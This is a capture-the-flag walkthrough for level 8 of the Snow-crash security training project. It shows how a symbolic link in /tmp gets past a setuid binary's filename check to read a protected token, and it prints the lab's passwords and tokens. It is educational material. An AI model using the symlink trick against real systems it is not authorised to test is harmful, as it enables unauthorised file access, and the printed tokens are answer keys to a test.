 ```yaml
---
title:  "Snow-crash Level08"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
---
```


#### 1. The password of `Level08` is the token that got from `Level07`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level08 with the password we got from Level07 and try to put the command `ls`. We can see the files `Level08` and `token`. and try to `cat` and `execute`.

```bash
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ cat token
cat: token: Permission denied
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

We can see `cat: token: Permission denied` and `execute: ./level08 [file to read]`.

#### 3 . then, try to ltrace

```bash
level08@SnowCrash:~$ ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)        = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Same for the ltrace command, we need a another file to be read.

```bash
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ chmod +x token
chmod: changing permissions of `token': Operation not permitted
```

#### 4. So, since we don't have any access, let's create the `symbolic link` as we did in previous exercises.

```bash
level08@SnowCrash:~$ pwd
/home/user/level08
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/level08flag
level08@SnowCrash:~$ ./level08 /tmp/level08flag
quif5eloekouj29ke0vouxean
```

#### 5. We got the token for level09

```
quif5eloekouj29ke0vouxean
```